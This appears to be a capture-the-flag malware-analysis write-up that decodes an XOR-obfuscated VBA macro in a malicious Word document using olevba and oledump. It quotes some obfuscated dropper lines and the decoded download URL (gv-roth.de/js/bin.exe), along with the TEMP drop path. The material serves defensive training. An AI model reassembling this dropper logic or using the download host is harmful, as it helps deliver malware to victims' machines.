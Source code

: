 1. Run the command [olevba attacker4.doc] which will give all the content assossiated with attacker4.doc. Now look for the very first encoded string, which is at the line [Set VPBCRFOQENN = CreateObject(XORI(Hextostring("3F34193F254049193F253A331522"), Hextostring("7267417269")))]. This line suggests that an object is being created. Hence, to get the original string, convert the first hex string to bytes, XOR each byte with the corresponding byte of the second hex string (repeated cyclically), and convert the XOR result to text [MSXML2.XMLHTTP].

2. The line in the content [ZUWSBYDOTWV gGHBkj, Environ(XORI(Hextostring("3E200501"), Hextostring("6A654851714A64"))) & XORI(Hextostring("11371B0A00123918220E001668143516"), Hextostring("4D734243414671"))] suggests an Environ function, that retrieves the value of an environment variable. Hence, decode it and we will get [TEMP + \DYIATHUQLCW.exe]. Remove [\] to get the exact answer.

3. The directory into which the binary is being dropped in clearly mentioned in the above data [TEMP].

4. The line [gGHBkj = XORI(Hextostring("1C3B2404757F5B2826593D3F00277E102A7F1E3C7F16263E5A2A2811"), Hextostring("744F50"))] most probably represents the storing of some data, so lets just decode it and see what it gives: [http://gv-roth.de/js/bin.exe]. So, the second binary is [bin.exe].

5. The full path from where the second binary was downloaded is [gv-roth.de/js/bin.exe], after removing the [https] as required in the statement.


### To answer all the question, you may first decode all the lines containing the word [XORI], and then figure out all the answers easily. For this, run the command [oledump.py attacker4.doc -s 7 -v | grep XORI].
